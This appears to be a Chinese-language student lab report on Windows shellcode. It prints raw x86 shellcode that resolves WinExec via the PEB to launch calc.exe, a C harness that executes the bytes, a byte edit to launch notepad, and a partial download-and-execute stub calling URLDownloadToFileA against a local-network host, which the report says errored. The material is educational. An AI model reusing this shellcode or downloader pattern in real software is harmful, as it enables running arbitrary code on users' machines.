 

# 实验4-shellcode

## 实验要求

* 把上面这个链接中shellcode能够成功运行
* 能从汇编源码编译通过并成功dump
* 自行查阅资料，搜索Windows PEB结构体，PE文件导入表导出表相关数据结构的文档，解读shellcode原理
* 修改shellcode功能为运行记事本程序notepad. exe
* (选做，难度较大)修改shellcode功能为下载执行器，即下下载一个可执行文件，然后再运行（提示，使用原生API UrlDownloadToFileA）

## 实验环境

* windows 10
* Kali 2003
* Visual Studio

## 实验过程

### 1、运行`shellcode`示例

#### 1.1 代码

```
#include <windows.h>
#include <stdio.h>

char code[] = \
"\x89\xe5\x83\xec\x20\x31\xdb\x64\x8b\x5b\x30\x8b\x5b\x0c\x8b\x5b"
"\x1c\x8b\x1b\x8b\x1b\x8b\x43\x08\x89\x45\xfc\x8b\x58\x3c\x01\xc3"
"\x8b\x5b\x78\x01\xc3\x8b\x7b\x20\x01\xc7\x89\x7d\xf8\x8b\x4b\x24"
"\x01\xc1\x89\x4d\xf4\x8b\x53\x1c\x01\xc2\x89\x55\xf0\x8b\x53\x14"
"\x89\x55\xec\xeb\x32\x31\xc0\x8b\x55\xec\x8b\x7d\xf8\x8b\x75\x18"
"\x31\xc9\xfc\x8b\x3c\x87\x03\x7d\xfc\x66\x83\xc1\x08\xf3\xa6\x74"
"\x05\x40\x39\xd0\x72\xe4\x8b\x4d\xf4\x8b\x55\xf0\x66\x8b\x04\x41"
"\x8b\x04\x82\x03\x45\xfc\xc3\xba\x78\x78\x65\x63\xc1\xea\x08\x52"
"\x68\x57\x69\x6e\x45\x89\x65\x18\xe8\xb8\xff\xff\xff\x31\xc9\x51"
"\x68\x2e\x65\x78\x65\x68\x63\x61\x6c\x63\x89\xe3\x41\x51\x53\xff"
"\xd0\x31\xc9\xb9\x01\x65\x73\x73\xc1\xe9\x08\x51\x68\x50\x72\x6f"
"\x63\x68\x45\x78\x69\x74\x89\x65\x18\xe8\x87\xff\xff\xff\x31\xd2"
"\x52\xff\xd0";

int main(int argc, char** argv)
{
    int (*func)();
    //DWORD old_protect;
    //VirtualProtect(code, sizeof(code), PAGE_EXECUTE_READWRITE, &old_protect);
    func = (int(*)()) code;
    (int)(*func)();
}
```

#### 1.2 运行结果：成功

![image-20201022140640653](/img/image-20201022140640653.png)

### 2、从汇编源码编译通过并成功dump

通过执行`nasm`和`objdump`命令可以验证。

![image-20201029140022556](/img/image-20201029140022556.png)

![image-20201029140214155](/img/image-20201029140214155.png)

### 3、PEB

### 4、修改shellcode功能为运行记事本程序notepad. exe

#### 4.1 修改代码：将`calc.exe`修改为`notepad.exe`

`00 00 00 00 65 78 65 2e 63 6c 61 63`->`00 65 78 65 2e 64 61 70 65 74 6f 6e`

![image-20201029145659148](/img/image-20201029145659148.png)

#### 4.2 重新`dump`

![image-20201029150255387](/img/image-20201029150255387.png)

#### 4.3 将结果粘贴到代码里，重新运行

![image-20201029150353246](/img/image-20201029150353246.png)

### 5、修改shellcode功能为下载执行器，即下下载一个可执行文件，然后再运行

#### 5.1 代码

```
#include<Windows.h>
#include<urlmon.h>

typedef int(WINAPI* MY_DOWNLOAD_PROC)(LPUNKNOWN, LPCSTR, LPCSTR, DWORD, LPBINDSTATUSCALLBACK);

int main()
{
	HMODULE hurlmod = LoadLibrary("urlmon.dll");
	MY_DOWNLOAD_PROC function_ptr = (MY_DOWNLOAD_PROC)GetProcAddress(hurlmod, "URLDownloadToFileA");
	function_ptr(NULL, "192.168.9.3:8000/workspace/shellcode.exe", "a.exe", 0, NULL);
	//CreateProcess
	//WinExec("a.exe", SW_HIDE);
}
```

报错：

![image-20201029212538113](/img/image-20201029212538113.png)

